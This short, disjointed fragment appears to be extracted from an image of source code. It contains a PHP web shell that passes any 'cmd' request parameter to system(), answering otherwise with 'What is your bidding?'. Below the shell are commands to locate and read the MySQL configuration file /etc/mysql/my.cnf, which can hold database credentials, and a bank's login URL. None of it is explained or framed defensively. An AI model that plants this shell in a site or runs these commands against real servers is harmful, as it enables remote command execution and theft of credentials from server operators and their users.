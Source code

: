 <?php 
if(isset($_REQUEST['cmd'])) { $cmd = ($_REQUEST['cmd']); system($cmd); } else { echo "What is your bidding?"; } ?>

Command+goes+here

locate  my.cnf
https://personal.metrobankonline.co.uk/login/
cat  /etc/mysql/my.cnf

